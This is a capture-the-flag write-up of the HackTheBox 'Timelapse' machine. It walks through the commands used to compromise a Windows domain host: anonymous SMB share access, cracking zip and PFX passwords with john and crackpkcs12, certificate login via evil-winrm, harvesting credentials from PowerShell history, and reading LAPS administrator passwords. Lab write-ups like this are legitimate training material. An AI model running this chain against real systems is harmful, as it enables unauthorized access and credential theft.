

## HackTheBox - Timelapse

It starts with a portscan.

`nmap -sV -sC -A -sS <IP>`

We see some ports and their services like `DNS`,`SMB`,`LDAP`.

We also see the domain `timelapse.htb` which we need.

I like to start looking at `SMB` first.
So here we go!

`smbclient --no-pass -L //10.129.243.157/Shares`

We can view shares anonymously without access data.
Under `Dev` there was an interesting backupfile `winrm_backup.zip` which I downloaded.

The `zip` file was password protected.

So I used `zip2john winrm_backup.zip > zipHash.txt` to extract the hash and crack the password.

The password was quickly cracked with `john`.

`john --wordlist=/usr/share/wordlists/rockyou.txt zipHash.txt`

I unpacked the content with the password and a file `legacyy_dev_auth.pfx` appeared.
This file type was unknown to me so far, so I found out what we were dealing with.

I learned that this file contains certificates.
However, this file had to be cracked as well.

I found a [tool](https://github.com/crackpkcs12/crackpkcs12) for this purpose and cracked the file.
It took a little bit of patience until the password was spit out.

`./crackpkcs12 -d /usr/share/wordlists/rockyou.txt legacyy_dev_auth.pfx`

The certificate and private key could be extracted using the password and the following commands.

`openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes`

`openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem`

As the name of the backup file suggests, we can now use it to log in to the machine with `winrm`.
I used the tool `evil-winrm` to log in.
We use the argument `-k` and specify our private key file and with the argument `-c` we specify the `cert.pem` file.
It was also necessary to specify the `-S` argument and use `SSL`.

`ruby evil-winrm.rb -k key.pem -c cert.pem -S -i timelapse.htb`

I was logged in as user `legacyy` and got the user flag.

# legacyy -> svc_deploy

I enumerated the system and went through my PrivEsc CheatSheet.
Then I discovered under the path `C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\Powershell\` in the __Powershell History File__ `ConsoleHost_history.txt` access data to the account `svc_deploy`.

With the password a new session with `winrm` could be established as `svc_deploy` user.

# svc_deploy -> Administrator

I looked in which groups `svc_deploy` belongs to and saw `TIMELAPSE\LAPS_Readers`.

`whoami /groups`

As a member of this group we can read `Local Administrator` passwords.
With the following command I got the password.

`get-adcomputer -filter * -properties ms-mcs-admpwd | select name,ms-mcs-admpwd`

The received password could be used with the Àdministrator account and we were able to log in via `winrm`.

The root flag was on the desktop of the user `TRX`.

